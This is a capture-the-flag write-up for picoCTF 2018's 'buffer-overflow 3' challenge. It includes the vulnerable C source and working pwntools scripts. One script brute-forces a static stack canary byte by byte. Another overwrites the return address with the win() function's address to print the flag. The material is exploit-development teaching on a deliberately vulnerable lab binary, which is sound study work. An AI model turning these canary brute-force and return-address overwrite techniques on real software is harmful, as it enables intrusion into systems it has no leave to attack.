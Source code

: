 ![title](images/title.png)

![hint](images/hint.png)

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### vuln.c

A bufsize and canary are delared here. A canary is a type of security that helps prevent buffer overflows by placing a value after a buffer, before the return address that can be reverified before a program returns to the main function. This means if we overflow the buffer to control EIP then we will also change the canary value and the program will crash before we can pwn it

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4
```

Here we have our win function that reads the flag and a read_canary() function that takes a canary from canary.txt. This means our canary should be static and has a possibility of being brute forced since the binary is 32bit.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```

The location of our vulnerability where we will take advantage of a convenient scanf
```c
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

First we will use part of our python script to brute force the canary. We will use the string library to test all printable ascii characters one at a time. The idea here is that if we fill the buffer with 32 characters the next character will be the first value of the 4byte canary. So we can test one at a time until we have all four. I chose to run this locally then ssh into the server and run my python script there to save time.

```python
#!/usr/bin/env python

from pwn import *
import sys
import string

#get arg # and determine if local or remote
argc = len(sys.argv)

#get ELF addresses
e = ELF('./vuln')
win = e.symbols['win']

#buf amount
buf = 32

context.log_level = 'critical'

# if argc > 2:
# 	from getpass import getpass
# 	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
# 	p = ssh.process('vuln', cwd='/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf')
# else:
# 	p = process('./vuln')
canary = ''

while len(canary) < 4:
	for char in string.printable:
		test = canary+char
		payload = ''
		payload+= 'A'*buf
		payload+= test
		p = process('./vuln')
		p.sendlineafter('> ', str(len(payload)))
		p.sendlineafter('Input> ', payload)
		if "Ok... Now Where's the Flag?" in p.recvall():
			canary+= char
			break
		else:
			p.close()
print "Canary: " + canary
```

Heres the results:

```
ems3t@pico-2018-shell:/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf$ python /tmp/ems3t/buf3.py 
[*] '/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
Canary: IHwj
ems3t@pico-2018-shell:/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf$ 
```
So now we can hardcode our canary and find the buffer required to control EIP. I loaded up gdb and set a breakpoint on the ret in vuln. Run the program and submit 36 as our write amount then 32 "A"s to fill the buffer and add our 4byte canary on the end. We hit our break point and examine the stack to find the distance between our canary and the return address value. Looks like 16 characters will fill the buffer up to the point of the return address where we can stick our win function

![gdb](images/gdb.png)

## Strategy

1. Build our payload consisting of 32 A's to fill the buffer + canary + 16 A's to fill the rest of the buffer to the ret address + win() function address
2. Send our write value as len(payload).
3. Send our payload

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys
import string

#get arg # and determine if local or remote
argc = len(sys.argv)

#get ELF addresses
e = ELF('./vuln')
win = e.symbols['win']

#buf amount
buf = 32

context.log_level = 'critical'

canary = 'IHwj'

while len(canary) < 4:
	for char in string.printable:
		test = canary+char
		payload = ''
		payload+= 'A'*buf
		payload+= test
		p = process('./vuln')
		p.sendlineafter('> ', str(len(payload)))
		p.sendlineafter('Input> ', payload)
		if "Ok... Now Where's the Flag?" in p.recvall():
			canary+= char
			break
		else:
			p.close()
print "Canary: " + canary

if argc > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf')
else:
	p = process('./vuln')

#build payload and send it
payload = ''
payload+= 'A'*buf
payload+= canary
payload+= 'A'*16
payload+= p32(win)
p.sendlineafter('> ', str(len(payload)))
p.sendlineafter('Input> ', payload)
print p.recvuntil('}')
```